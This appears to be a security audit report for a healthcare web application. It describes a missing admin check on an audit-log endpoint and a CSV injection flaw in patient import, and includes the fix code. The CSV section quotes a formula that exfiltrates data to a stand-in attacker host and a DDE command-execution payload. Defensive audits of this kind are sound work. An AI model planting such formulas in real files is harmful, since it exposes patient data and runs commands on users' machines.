 **Exploitation Scenario:**
1. Attacker obtains valid user credentials (non-admin)
2. Makes GET request to `/api/audit`
3. Gains access to all audit logs revealing PHI access patterns

**Fix Implemented:**
```typescript
// AFTER: Proper role check
if (!session?.user) {
  return NextResponse.json({ error: 'Unauthorized' }, { status: 401 });
}

if (session.user.role !== 'ADMIN') {
  return NextResponse.json(
    { error: 'Forbidden - Admin access required' },
    { status: 403 }
  );
}
```

**Security Controls Added:**
- ✅ Role-based access control (RBAC) enforcement
- ✅ Separate 401 (unauthenticated) from 403 (unauthorized) responses
- ✅ Admin-only access to audit logs

---

### 2. **CSV Injection Vulnerability (CRITICAL - Fixed)**

**Location:** `/root/holilabs/apps/web/src/app/api/patients/import/route.ts:39-60`

**Vulnerability:**
```typescript
// BEFORE: No CSV injection prevention
function parseCSV(csvText: string): CSVRow[] {
  const lines = csvText.trim().split('\n');
  const headers = lines[0].split(',').map(h => h.trim());

  for (let i = 1; i < lines.length; i++) {
    const values = lines[i].split(','); // Vulnerable to injection
    // ... directly inserts into database
  }
}
```

**Impact:**
- **CSV Formula Injection:** Attacker could inject formulas starting with `=`, `+`, `-`, `@`, `\t`, `\r`
- **Code Execution:** When CSV is opened in Excel/Google Sheets, formulas execute arbitrary commands
- **Data Exfiltration:** Formulas like `=WEBSERVICE("http://attacker.com/"&A1)` could exfiltrate PHI
- **Parser Bypass:** Simple `split(',')` fails on quoted fields like `"123 Main St, Apt 2"`

**Exploitation Scenario:**
1. Attacker creates malicious CSV: `John,Doe,=cmd|'/c calc.exe'!A1,MALE,test@example.com`
2. Uploads via bulk import
3. Admin exports patient data
4. Opening exported CSV executes calculator (or malicious payload)
